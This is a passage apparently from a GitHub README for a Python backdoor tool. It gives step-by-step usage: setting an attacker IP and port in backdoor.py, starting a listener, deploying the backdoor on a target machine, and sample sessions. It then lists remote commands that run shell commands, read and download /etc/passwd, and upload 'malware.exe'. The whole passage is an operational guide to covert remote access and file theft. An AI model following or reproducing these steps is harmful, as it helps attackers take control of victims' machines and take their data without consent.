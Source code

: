 3. **Configure the backdoor:**
   Edit `backdoor.py` and change the connection settings:

   ```python
   ATTACKER_HOST = '192.168.1.12'  # Your attacker IP
   ATTACKER_PORT = 5558            # Your listener port
   ```

4. **Run the backdoor:**
   ```bash
   python3 backdoor.py
   ```

## 📖 Usage Guide

### Starting the Attack

1. **Start the controller on attacker machine:**

   ```bash
   python3 server.py
   ```

   Output:

   ```
   [+] Listening on 0.0.0.0:5558
   [*] Waiting for incoming connections...
   ```

2. **Deploy and run backdoor on target:**

   ```bash
   python3 backdoor.py
   ```

3. **Connection established:**
   ```
   [+] Connection established from 192.168.1.50:54321
   === System Information ===
   Hostname: target-machine
   System: Darwin
   ...
   ```

### Basic Commands

```bash
# Get help
help

# System information
sysinfo

# Execute shell commands
ls -la
whoami
cat /etc/passwd

# File operations
download /etc/passwd
upload malware.exe
cd /tmp

# Exit
quit
```
